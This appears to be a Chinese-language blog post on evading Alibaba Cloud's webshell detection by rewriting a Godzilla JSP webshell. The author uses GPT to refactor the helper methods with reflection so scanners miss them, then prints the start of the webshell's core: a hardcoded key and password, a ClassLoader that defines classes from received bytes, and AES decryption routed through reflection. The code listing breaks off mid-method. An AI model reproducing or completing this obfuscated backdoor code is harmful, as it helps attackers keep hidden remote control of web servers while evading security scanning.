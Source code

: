 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNtguoxYTZeO1WxCsia4J75QECUYqOpiaGdlnxatUkG01vE92Wka1V7B6g/640?wx_fmt=png&from=appmsg "")  
  
  
就类似于这种。这样的话，阿里云就不报了。  
  
原本的哥斯拉分两半部分，上部分为定义的各种方法。如md5 base64 en decode aes等，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNlJyWT1h9UZPZHOM1VINhvsCquSNdiaVzbSoZBfxKL6WZHWjhajfe28g/640?wx_fmt=png&from=appmsg "")  
  
  
下半部分为，正真的传参逻辑。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNIQibNF6oIORZuRt3O3yPtJOE3xYfkoPiaqtQLdMCsQeibjeCUgPBc1ong/640?wx_fmt=png&from=appmsg "")  
  
  
我们让gpt帮我们改一下，上半部分，用反射机制，并且避免invoke出现。  
  
左边为没有下班部分，右边是有的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYN2ibwO2c09pwTVs6d9YcQshBWp0KiaoYF4Cskv6cunnIYXTYRfYvRicrfQ/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到，上半部分已经没有问题了，下半部分还是有问题，放一下🐎。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNsMYN3fJdErZLaj8EulODBliam0zkUv6ucUySfNSjfg9ib1ESzz4mEm0w/640?wx_fmt=png&from=appmsg "")  
  
  
阿里云也报，他是报的f.equals(pageContext);。那我们再改一下。🐎的核心逻辑。  
```
<%! 
    String xc = "3c6e0b8a9c15224a"; 
    String pass = "pass"; 
    String md5 = md5(pass + xc); 
    
    class X extends ClassLoader {
        public X(ClassLoader z) {
            super(z);
        }
        
       public Class Q(byte[] cb) {
    try {
        return super.defineClass(null, cb, 0, cb.length);
    } catch (ClassFormatError e) {
        // 可以在这里捕获并处理异常
        e.printStackTrace();
        return null;
    }
}
    } 
public byte[] x(byte[] s, boolean m) { 
    try {
        // 获取 Cipher 类
        Class<?> cipherClass = Class.forName("javax.crypto.Cipher");

        // 获取 Cipher.getInstance("AES") 方法并调用
        java.lang.reflect.Method getInstanceMethod = cipherClass.getMethod("getInstance", String.class);
        Object cipher = getInstanceMethod.invoke(null, "AES");

        // 获取 SecretKeySpec 类并创建对象
        Class<?> secretKeySpecClass = Class.forName("javax.crypto.spec.SecretKeySpec");
        java.lang.reflect.Constructor<?> secretKeySpecConstructor = secretKeySpecClass.getConstructor(byte[].class, String.class);
        Object key = secretKeySpecConstructor.newInstance(xc.getBytes(), "AES");

        // 获取 Cipher.init 方法并调用
        java.lang.reflect.Method initMethod = cipherClass.getMethod("init", int.class, java.security.Key.class);
```